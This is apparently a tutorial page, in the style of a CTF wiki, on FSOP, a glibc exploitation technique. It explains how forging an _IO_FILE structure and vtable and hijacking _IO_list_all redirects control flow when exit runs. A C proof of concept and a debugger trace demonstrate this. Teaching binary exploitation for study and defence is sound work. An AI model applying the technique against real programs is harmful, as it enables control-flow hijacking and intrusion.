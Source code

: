 [EN](./fsop.md) | [ZH](./fsop-zh.md)
# FSOP



## Introduction
FSOP is the abbreviation of File Stream Oriented Programming. According to the previous introduction to FILE, all the _IO_FILE structures in the process will be connected to each other using the _chain field to form a linked list. The header of this linked list is maintained by _IO_list_all.


The core idea of the FSOP is to hijack the value of _IO_list_all to fake the linked list and the _IO_FILE entry, but pure forgery just constructs the data and needs some way to trigger. The trigger method for FSOP selection is to call _IO_flush_all_lockp. This function will refresh the file stream of all items in the _IO_list_all list, which is equivalent to calling fflush for each FILE, and correspondingly calling _IO_overflow in _IO_FILE_plus.vtable.


```

int

_IO_flush_all_lockp (int do_lock)

{

  ...

fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)

  {

       ...

       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

        ...

  }

}

```



![](./figure/abort_routine.001.jpeg)



_IO_flush_all_lockp does not require an attacker to manually invoke it. In some cases this function will be called by the system:


1. When libc executes the abort process


2. When executing the exit function


3. When the execution flow returns from the main function




##example


To sort out the conditions used by the FSOP, the attacker first needs to know the libc.so base address, because _IO_list_all is stored as a global variable in libc.so, and _IO_list_all cannot be overwritten without leaking the libc base address.


Then you need to use any address to write the contents of _IO_list_all to pointers to our controllable memory.


The next question is what data is placed in the controllable memory, and there is no doubt that we need to lay out a vtable pointer to our ideal function. But in order for the fake_FILE we constructed to work properly, we need to lay out some other data.
The basis here is the one we gave earlier.


```

if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

```



That is


* fp->_mode <= 0

* fp->_IO_write_ptr > fp->_IO_write_base







Here we verify this with an example. First we allocate a block of memory for the fake vtable and _IO_FILE_plus.
In order to bypass the verification, we get the offset of the data fields such as _IO_write_ptr, _IO_write_base, _mode in advance, so that the corresponding data can be constructed in the forged vtable.


```

#define _IO_list_all 0x7ffff7dd2520

#define mode_offset 0xc0

#define writeptr_offset 0x28

#define writebase_offset 0x20

#define vtable_offset 0xd8



int main(void)

{

void * ptr;
    long long *list_all_ptr;



ptr = malloc (0x200);


    *(long long*)((long long)ptr+mode_offset)=0x0;

    *(long long*)((long long)ptr+writeptr_offset)=0x1;

    *(long long*)((long long)ptr+writebase_offset)=0x0;

    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);



    *(long long*)((long long)ptr+0x100+24)=0x41414141;



    list_all_ptr=(long long *)_IO_list_all;



    list_all_ptr[0]=ptr;



    exit(0);

}

```



We use the first 0x100 bytes of allocated memory as _IO_FILE, the last 0x100 bytes as vtable, and the 0x41414141 address in the vtable as the fake _IO_overflow pointer.


After that, overwrite the global variable _IO_list_all in libc and point it to our fake _IO_FILE_plus.


By calling the exit function, the program will execute _IO_flush_all_lockp, get the value of _IO_list_all via fflush and retrieve the _IO_overflow called as _IO_FILE_plus.


```

---> call _IO_overflow

[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)

[#1] 0x7ffff7a8932a → Name: _IO_cleanup()

[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)

[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)

[#4] 0x4005ce → Name: main()



```

